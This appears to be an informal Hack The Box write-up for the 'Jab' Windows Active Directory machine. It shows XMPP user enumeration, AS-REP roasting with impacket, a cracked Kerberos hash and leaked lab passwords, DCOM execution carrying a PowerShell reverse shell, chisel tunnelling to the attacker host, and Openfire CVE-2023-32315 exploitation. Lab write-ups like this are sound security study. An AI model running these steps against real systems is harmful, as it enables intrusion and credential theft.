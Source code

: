 # Jab -htb(Compi)


Windows box

Nmap scan reveals that it is an AD machine

`port 53, LDAP, port 5222 (jabber)`--> name of the box ---> this shud be interesting.

port 7070 ---> leads to a site

domain name DC.jab.htb jab.htb
add them to hosts file

When its AD, we gotta enumerate Usernames , you know the drill.
	lots of usernames , keeps on going.

This is about XMPP ----> instant messagging ----> a client called `pidgin` is used to connect.

So this took me a while to get hang of it . Open pidgin kali, and then register as a new user.
Remember to use the `jab.htb` as the Domain name or it will not connect.

Then inside of pidgin after creating a user and logging in, go to plugins and select `service discovery`. It will enumerate other chatrooms /domains etc .

---
Then you will find test2 , join the chatroom.
You will find a user `bdavis` xss the chat room lol
`(11/21/2023 01:49:50 PM) bdavis: <img src="data:image/png;base64,VGhlIGltYWdlIGRhdGEgZ29lcyBoZXJlCg==" alt="some text" />`

hmm

There is a cve that does the exact same thing : https://github.com/theart42/cves/blob/master/cve-2020-12772/pictures/responder.png 
maybe i do it too ?

It didnt work

----

When discovering for services , i found `search.jab.htb`,  then when i went into accounts --> myaccount ---> search for user , i found a massive list of users . Now i need to export this list somehow so that i can furtuer run kerbrute.

the burp proxy thing , i coulndt figure it out so i did this to export the users list:

	start pidgin like this : `pidgin -d > output.log`
	then go to accoutss and search users. After searching you will get the users in output log.

Now to filter out from that list, only username , do this :
`grep -oP '<value>\K[^<]+@jab.htb(?=</value>)' output.log | sed 's/@jab.htb//g' | sort | uniq > output_filtered.lst`

After that we need to do `AS-REP Roastable` attack:
`impacket-GetNPUsers jab.htb/ -usersfile output_filtered.lst -outputfile outputusers.txt -dc-ip 10.10.11.4 -no-pass`

We will get some hashes , then crack them using hashcat
`$krb5asrep$23$jmontgomery@JAB.HTB:969e83d52a785c0d86dffa3f3dd3a836$20674d8fe93b775b769c101c008568b9e8f431b8bfc6c9aaa673201d452f7b2c323af7f7b966056fa582967923c7241ca7656abe366f2f625d1a8103b2f7025363bec29fd11cc1a5d422bf02347276f5cb8a73384f8b5185ebea76ab52ea5ab249819391b3f5a125d1110d3f223551bdf934bd74788e5cc83082f4f730ecda0dcbc375530afb33dc322775102cf48d0d5c774121b9e0bb0dd58cf1a9b202afd9551fd96ee04f5dcab8b3684ac13be43c3fd06d953f94b73d54a60386acff75a49ca694c8fec3fb760423927943c99eb2fff940ce17bae7f90c5c7510d2f28c34ea1f`
: Midnight_121

So only `jmontgomery@JAB.HTB`'s hash worked 

Now we have to use this cred in pidgin, add user there and login with pass.
Then go to service discovery plugin and search for services with your new account, will find a new chat room, go there and grab `svc_openfire` user hash. Crack it. 
Oh wait, no need to crack it , read the texts , the hash is already cracked.lol


svc_openfire  :  `!@#$%^&*(1qazxsw`

Where do i use this ?

after trying other options so much , i found 
`runas` in Windows . I can use this command to run as `svc_openfire` wtf
https://book.hacktricks.xyz/windows-hardening/lateral-movement/dcom-exec

After countless fails and going thru this exploit, trying to figure out how to get a rev shell, almost took the day.
This is how it worked:

	`runas` didnt work so forget about it.
	`dcomexec.py` i downloaded and ran using python3 , then ran this command:
		`python3 dcomexec.py -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 '<base64Powershellrevshell>' -silentcommand

Finally got a connection back and got User flag!



---

Shell as SVC_openfire (ROAD to PRIV ESC):
--


port forward to access OpenFire dashboard

`./chisel.exe client 10.10.14.8:8051 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091` on target machine

on kali:  ./chisel server -p 8051 --reverse

now on kali access the dashboard with port localhost:9090

Now google the OpenFire cve and use that to exploit.

But wait, we already have the OpenFire creds. Use svc_openfire creds theysame.

---

OpenFire DashBoard ENUM:
--

Since we have an OpenFire account, we can directly skip to uploading a malicisous .jar file 
https://vulncheck.com/blog/openfire-cve-2023-32315

By following this cve and using the management-tool-commnads :
	i was able to RCE , but thru that tool, i couldnt do much , only "whoami" worked. and if i tried to run any commands like dir,ls etc it would give "bad command" error . so annoyinng.
	
So i opened  a rev shell again from that shell.
	
`cmd.exe /c powershell -e [revshell in base64]`

and got root flag.
